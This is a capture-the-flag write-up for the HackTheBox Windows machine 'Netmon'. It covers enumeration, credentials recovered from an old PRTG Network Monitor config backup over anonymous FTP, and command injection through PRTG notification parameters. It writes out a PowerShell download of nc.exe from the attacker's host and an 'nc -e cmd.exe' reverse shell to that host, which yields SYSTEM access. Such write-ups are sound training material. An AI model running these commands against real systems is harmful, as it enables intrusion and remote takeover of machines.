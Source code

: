 ```yaml
---
title:      'Netmon'
date:       '2022-01-23'
tag:        'htb'
subtag1:    'Windows'
subtag2:    'Enumeration'
subtag3:    'Command Injection'
---
```


###### Netmon is a retired easy-ranked Windows machine on HacktheBox.


### INFORMATION GATHERING

---
##### nmap scan

![nmap scan](/images/boxes/netmon/nmap.png "nmap scan")
```bash
nmap -sC -sV -Pn -oA Netmon 10.10.10.152
```
Here we discover:
- ftp (Anonymous login permitted)
- Windows RPC
- smb
- Windows server 2008

---
##### ftp exploration

![ftp exploration](/images/boxes/netmon/ftp.png "ftp exploration")
```bash
ftp 10.10.10.152
username: Anonymous
password: _blank_
```

![ftp exploration 2](/images/boxes/netmon/ftp_2.png "ftp exploration 2")

---
##### user.txt
![user flag](/images/boxes/netmon/user_flag.png "user flag")

the user flag was accessible right away

---

##### website exploration
![website explore 1](/images/boxes/netmon/website_explore1.png "website explore 1")
We discover a web app called PRTG Network Monitor
![website explore 2](/images/boxes/netmon/website_explore2.png "website explore 2")
PRTG Network Monitor 18.1.37.13946

---

##### research
![research 1](/images/boxes/netmon/research1.png "research 1")
Research into PRTG Network Monitor 18.1.37 led me to this notice
[https://www.paessler.com/about-prtg-17-4-35-through-18-1-37](https://www.paessler.com/about-prtg-17-4-35-through-18-1-37)

> Delete the following automatically generated copies of the configuration file if they exist:  
• C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old


---

##### ftp back in
![ftp exploration 3](/images/boxes/netmon/ftp_3.png "ftp exploration 3")
ftp back in and navigate to _C:\ProgramData\Paessler\PRTG Network Monitor_
and locate a file called _PRTG Configuration.old.bak_

---

##### backup config file examination
Examining the file and searching for _"password>"_ yields:
![config file examination](/images/boxes/netmon/config_file.png "config file examination")
we have credentials now
_prtgadmin/PrTg@dmin2018_. 

these credentials fail however. Since these are old backups, a password guess of _PrTg@dmin2019_ logs in successfully

![website access](/images/boxes/netmon/website_access.png "website access")

---

##### further research
![vulnerability research](/images/boxes/netmon/research2.png "vulnerability research")
full credit to
[https://www.codewatch.org/blog/?p=453](https://www.codewatch.org/blog/?p=453)

notification parameters are not sanitized

### EXPLOITATION

---
##### notifications

![notification home](/images/boxes/netmon/notification_1.png "notification home")
navigate to notification creation center

![notification 2](/images/boxes/netmon/notification_2.png "notification 2")
![notification 3](/images/boxes/netmon/notification_3.png "notification 3")

---
##### server

![set up server](/images/boxes/netmon/server.png "set up server")
set up a simple python3 server to serve a netcat executable

---

##### set up notification

![notification exploit](/images/boxes/netmon/program_1.png "notification exploit")
```bash
Invoke-WebRequest http://10.10.14.19:8000/nc.exe -outfile C:\Users\Public\Downloads\nc.exe
```
here we pass the powershell command in
- _Invoke-WebRequest http://10.10.14.19:8000/nc.exe_ => reach out to my ip address on port 8000 and try to retrieve a file called _nc.exe_
- _-outfile C:\Users\Public\Downloads\nc.exe_ => save the grabbed file to C:\Users\Public\Downloads


---

##### trigger notification

![trigger notification 1](/images/boxes/netmon/trigger_notification_1.png "trigger notification 1")
can trigger the notification on demand

---

##### server check

![server check](/images/boxes/netmon/server2.png "server check")
request was triggered

---

##### ftp check

![ftp check](/images/boxes/netmon/ftp_4.png "ftp check")
file is where it should be

---

##### trigger next notification

![trigger notification 2](/images/boxes/netmon/trigger_notification_2.png "trigger notification 2")
```bash
C:\Users\Public\Downloads\nc.exe 10.10.14.19 7777 -e cmd.exe
```
here we pass the next powershell command in
- _C:\Users\Public\Downloads\nc.exe_ => call the injected file
- _10.10.14.19 7777_ => pass in my ip and port 7777
- _-e cmd.exe_ => execute cmd.exe when connection successful and pass stdin and stdout to the network

---

##### set up netcat listener

![netcat](/images/boxes/netmon/netcat.png "netcat")
```bash
nc -nlvp 7777
```
set up netcat listener on port 7777

---

##### connection successful

![netcat2](/images/boxes/netmon/netcat2.png "netcat2")
connection established on port 7777 upon triggering the second notification
our shell is 

_nt authority/system_ (fully authenticated)

### POST EXPLOITATION

##### root.txt
![root flag](/images/boxes/netmon/root_flag.png "root flag")
root flag was on the desktop of user _Administrator_

### SUMMARY

---
Netmon is an interesting Windows box and relies more heavily on external research than some of the other easy ranked machines. Guessing the year increment for the password was less precise than I would have liked, but had it failed, we could have pursued other avenues. It should be noted that this machine can be rooted extremely quickly using metasploit once the correct password is discovered, effectively trivializing this box.
